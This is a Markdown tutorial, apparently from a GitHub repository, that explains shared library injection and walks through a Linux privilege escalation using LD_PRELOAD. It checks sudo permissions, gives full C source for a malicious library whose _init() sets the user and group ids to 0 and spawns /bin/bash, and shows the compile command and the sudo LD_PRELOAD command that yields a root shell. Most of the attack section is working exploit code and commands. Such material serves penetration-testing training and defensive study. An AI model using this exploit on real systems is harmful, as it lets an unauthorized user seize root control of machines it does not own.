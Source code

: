 # Shared Library Injection

### 📚 What Is a Shared Library?

A **shared library** is a file that contains **common code** that different programs can use without having to duplicate that code.

- For example, the library `libc.so` is used by many programs to handle basic tasks like printing text or handling files.

Instead of every program including the same code, it just uses the shared library when needed. This helps save memory and makes the system more efficient.

---

### 🧨 What Is Shared Library Injection?

**Shared library injection** is when we **force a program to load a malicious shared library** (a `.so` file) to **run code** we want, like opening a root shell, changing settings, or escalating privileges.

For example, if we trick a program running with **root permissions** to load our malicious library, we can gain **root access**.

### 🔧 Tools & Techniques for Injection

There are two common methods to inject a shared library:

1. **LD_PRELOAD**: A special environment variable that allows you to inject your custom shared library into a running program.
2. **ptrace**: A system call that allows a program to control and modify another process’s memory, which can also be used for injection.

We’ll focus on the **LD_PRELOAD** method in this example.

---

## 🧑‍💻 Privilege Escalation Example: Using `LD_PRELOAD`

### 1. **Check What You Can Do With Sudo**

First, check what commands you can run as `sudo`:

```bash
sudo -l
```

**Explanation**:

- `sudo -l`: This command lists all the commands you are allowed to run as root (administrator).
- You’re looking for something that runs with `sudo` without asking for a password.

### Example Output:

```
(env_keep+=LD_PRELOAD)
(root) NOPASSWD: /usr/sbin/apache2
```

**What this means**:

- You can run `/usr/sbin/apache2` as **root** (with full permissions) without password.
- The `LD_PRELOAD` environment variable is not restricted, which means you can **inject your own shared library** into the running process.

### 2. **Create a Malicious Shared Library**

Now, we’ll create a malicious shared library that, when loaded, will give us a **root shell**.

- Create a new C file called `shell.c`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");  // Remove LD_PRELOAD to avoid infinite recursion
setgid(0);  // Set group ID to 0 (root)
setuid(0);  // Set user ID to 0 (root)
system("/bin/bash");  // Execute a root shell
}
```

**Explanation**:

- **`_init()`**: This function is special because it runs automatically when the shared library is loaded.
- **`setuid(0)` and `setgid(0)`**: These commands give us root privileges (UID and GID 0).
- **`system("/bin/bash")`**: This command spawns a **root shell**.

### 3. **Compile the Shared Library**

Now, we need to compile the C code into a shared library file (the `.so` file).

```c
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

**Explanation**:

- **`gcc`**: This is the C compiler.
- **`fPIC`**: This option tells the compiler to create **position-independent code**, which is needed for shared libraries.
- **`shared`**: This creates a shared library, not a regular executable.
- **`o shell.so`**: This specifies the output file name (`shell.so`).
- **`nostartfiles`**: This tells the compiler to skip the default start-up code and use our custom `_init()` function.

### 4. **Inject the Library and Gain Root Access**

Now, run the program (`apache2` in this case) with `sudo` and inject the malicious library using `LD_PRELOAD`:

```bash
sudo LD_PRELOAD=/full/path/to/shell.so /usr/sbin/apache2
```

**Explanation**:

- **`sudo`**: This runs a command as root (administrator).
- **`LD_PRELOAD=/full/path/to/shell.so`**: This tells the system to **preload** our malicious shared library (`shell.so`) before anything else, effectively hijacking the behavior of the `apache2` binary.
- **`/usr/sbin/apache2`**: This is the target binary that you’re running as root.

Once you run this command, it will load your malicious library, and the `_init()` function will run. This gives you a **root shell**.
